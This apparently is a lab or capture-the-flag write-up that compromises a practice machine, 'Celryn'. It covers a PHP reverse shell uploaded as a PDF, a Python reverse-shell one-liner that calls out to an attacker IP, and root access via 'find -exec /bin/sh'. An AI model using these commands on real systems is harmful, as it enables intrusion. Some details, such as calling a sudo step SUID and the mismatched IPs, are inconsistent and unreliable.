# Celryn - Penetration Testing Report

**Machine:** Celryn

**Difficulty:** Easy/Medium

**IP Address:** 10.15.1.144

**Operating System:** Linux

**Date:** March 11, 2026

**Tester:** someone with tools

---

## Executive Summary

Successfully compromised the Celryn machine through an unrestricted file upload vulnerability allowing malicious PDF uploads containing PHP reverse shells, followed by privilege escalation via SUID find binary exploitation. The engagement demonstrates critical vulnerabilities in file upload validation, authentication mechanisms, and SUID permission misconfigurations.

**Attack Path:**
Subdomain discovery -> Account registration with 2FA bypass -> Malicious PDF upload (PHP shell embedded) -> RCE as www-data -> Misconfigured service -> SUID find exploitation -> Root access

---

## Reconnaissance & Enumeration

### Network Scanning

**Port Scanning:**

```bash
nmap -sC -sV -T4 10.15.1.62
```



**Open Ports:**

| Port | Service | Version |
| --- | --- | --- |
| 22/tcp | SSH | OpenSSH 9.6p1 (Ubuntu) |
| 80/tcp | HTTP | nginx 1.24.0 (Ubuntu) |
| 443/tcp | HTTPS | nginx 1.24.0 (Ubuntu) |

Additional info

- **DNS:** `portal.celryn.ms`

---

### Web Application Analysis

### Main Site (celryn.ms)

Accessing `https://celryn.ms` resulted in DNS resolution error.



**Target Discovery:**

Added target to `/etc/hosts`:

```bash
10.15.1.62    celryn.ms
10.15.1.144   portal.celryn.ms
```



### Portal Site (portal.celryn.ms)

The portal subdomain hosted a client portal application requiring authentication.



**Registration Process:**

Created test account:

- **Name:** testuser
- **Email:** [gacato6885@devlug.com](mailto:gacato6885@devlug.com) (temporary email from temp-mail.org)
- **Password:** [test_password]


**Two-Factor Authentication:**

Registration triggered email-based 2FA:



**Verification Code:** 772344

**Authentication successful** - gained access to portal dashboard.



---

## Vulnerability Discovery

### File Upload Functionality

The authenticated portal provided a "Upload Documents" feature for submitting referral documents and purchase orders.

**Accepted File Types:** "Upload PDF only — Maximum file size: 10 MB"



**Critical Finding:** Despite claiming "PDF only," the application accepted files with `.pdf` extension regardless of actual content.

---

## Exploitation

### Malicious PDF Creation

**Strategy:** Embed PHP reverse shell code inside a PDF wrapper to bypass content-type validation.

**PDF Wrapper Creation:**

Created `shell.php.pdf` containing:

```bash
/usr/share/webshells/php/php-reverse-shell.php
```

**File saved as:** `shell.php.pdf`  <—— to our own system (atacker machine)

---

### File Upload Attack

**Setup Listener:**

```bash
nc -lvnp 443
```

### Upload Malicious PDF:

**Uploaded** `shell.php.pdf` through the portal interface using Burp Suite to intercept and change the extension to `shell.php`



However, accessing this URL would download the file instead of executing it. The key was finding where uploaded files are processed or rendered.

**Execution Trigger:**



Clicked "View" button on the uploaded document in the portal interface, which rendered the file server-side.

**Result:**

**Shell received as `www-data`!**

```bash
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



---

## Initial Access & Enumeration

### System Information

```bash
id
# uid=33(www-data) gid=33(www-data) groups=33(www-data)

ip a
# eth0: 10.15.1.144/23
```



### Post explotation

Gathering more informationfrom `/home/celryn-admin`

```bash
ls /home/celryn-admin/
# status.json  user.txt

cat /home/celryn-admin/user.txt
# cat: user.txt: Permission denied
```

```bash
cat /home/celryn-admin/status.json
```



### Application Analysis

**Health Monitoring Script:**

**Systemd Service:**

```bash
cat /etc/systemd/system/celryn-health.service
```



**Service runs as:** celryn-admin user

Found interesting Python script which uses several modules:

```bash
cat /opt/celryn/health_check.py
```



**Script Details:**

- Monitors Celryn web services availability
- Checks "Marketing Site" and "Client Portal"
- Logs results to `/var/log/celryn/health.log`
- Managed by systemd timer: `celryn-health.timer`
- **Owner:** celryn-admin

Need to escalate to celryn-admin or root.

---

## Privilege Escalation

### reverse shell:

By knowing that python searches modules from that folder script is located we write os.py (reverse shell code) for ourself:

we get reverse shell from https://www.revshells.com/ 



and echo to os.py file

```bash
echo 'import os,pty,socket;s=socket.socket();s.connect(("10.13.1.137",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' > os.py
```



**Shell received as `celryn-admin`!**



---

## Privilege Escalation

### SUID Binary Discovery

Searched for SUID binaries:

```bash
sudo -l
```

**Critical Finding:**

```bash
/usr/bin/find
```

The `find` binary has SUID bit set, meaning it executes with root privileges!

---

### GTFOBins Research

Consulted GTFOBins for `find` SUID exploitation:



**Exploitation Method:**

```bash
find . -exec /bin/sh \; -quit
```

This spawns a shell with the SUID privileges (root).

---

### Root Shell Acquisition

**Execution:**

```bash
sudo find . -exec /bin/sh \; -quit
```

**Result:**

```bash
script /dev/null -c bash
id
# uid=0(root) gid=0(root) groups=0(root)
```



**Root access achieved!**

---

## Proof of Compromise

### User Flag

```bash
cat user.txt
# 77d1d153e09e4b6962fb6b1b680a8846
```



### Root Flag

```bash
cat root.txt
# f90fb33a17f5b5165f7846b537740a727a
```



---

## Vulnerability Summary

| Vulnerability | Severity | Impact |
| --- | --- | --- |
| Unrestricted File Upload  | Critical | Arbitrary file upload leading to RCE |
| Insufficient File Type Validation | Critical | PHP code execution via PDF extension |
| SUID Binary Misconfiguration (find)  | Critical | Privilege escalation to root |

---

## Tools Used

| Tool | Purpose |
| --- | --- |
| Nmap | Port scanning and service detection |
| Burp Suite | HTTP request interception and analysis |
| Netcat | Reverse shell listener |
| RevShells.com | Reverse shell payload generation |
| GTFOBins | SUID binary exploitation research |
| Temp-Mail.org | Temporary email for registration |

---

## Conclusion

The Celryn machine was compromised through an unrestricted file upload vulnerability that allowed execution of PHP code disguised as a PDF document, followed by privilege escalation via a critically misconfigured SUID binary. The attack demonstrates how file upload features without proper validation can lead to complete system compromise.

**Time to Compromise:** ~40 minutes

**Difficulty:** Easy/Medium

**Attack Complexity:** Low (known techniques, simple exploitation)